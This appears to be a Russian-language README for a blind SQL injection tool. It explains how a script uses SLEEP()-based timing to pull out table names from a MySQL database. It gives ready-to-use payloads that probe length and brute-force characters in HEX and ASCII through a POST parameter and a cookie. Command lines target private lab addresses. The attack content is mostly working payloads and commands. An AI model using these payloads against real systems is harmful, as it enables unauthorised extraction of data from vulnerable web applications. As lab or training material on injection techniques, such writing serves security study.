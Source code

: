 # Blind SQL injection

Скрипт, который при помощи `SLEEP()` вытаскивает 

## Как использовать?

Попытаемся узнать имя таблицы (в моем примере всего одна таблица: `users`)

Пример стандартного запроса:
```SQL
SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1
```

### Шаг 1. Получим длину нашей записи

Для этого используем команду:

```SQL
if ((LENGTH((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1)) = 5), SLEEP(2),0)-- -
```

Если длина нашей ячейки `= 5` тогда выполняется `SLEEP(2)`

Определить чему она должна быть равна можно перебором, подставляя логические выражения `>0`, `>5`, `>3`, `=3`, `=4`, `=5`.
Команда `SLEEP(2)` отработает только на выражениях: `>0`, `>3`, `=5`.

### Шаг 2. Получаем название

Была уязвимость в POST параметре `name`. Вставляем в него PAYLOAD. В payload указываем `{POSITION}` - место буквы.
`{SYMBOL}` - буква которая будет подбираться брутфорсом. Перебирал HEX значения.

```bash
python3 script.py -post -u "http://10.8.32.1:43064/" -t hex \
 -d "name=mikop' or if((substring((SELECT HEX(TABLE_NAME) FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1)={SYMBOL}), sleep(0.5), 0)#"
 ```

![Скриншот подбора HEX](img/photo_2023-06-15_13-49-24.jpg)

### Пример SQLi в cookie

```PSOT
python3 script.py -get -u "http://10.8.32.1:43065/" \
  -H "Cookie: cook=mikop' or if((ASCII(substring((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1))={SYMBOL}), sleep(2), 0)#;" \
```

![Скриншот подбора HEX](img/photo_2023-06-15_14-31-51.jpg)


## Как работает?

Скрипт смотрит на задержку от сервера. Если на сервер отправить `SLEEP(10)`. То ответ придет не раньше, чем через 10 секунд.
Изменить это можно с помощью флага `--timeout 5.5`.

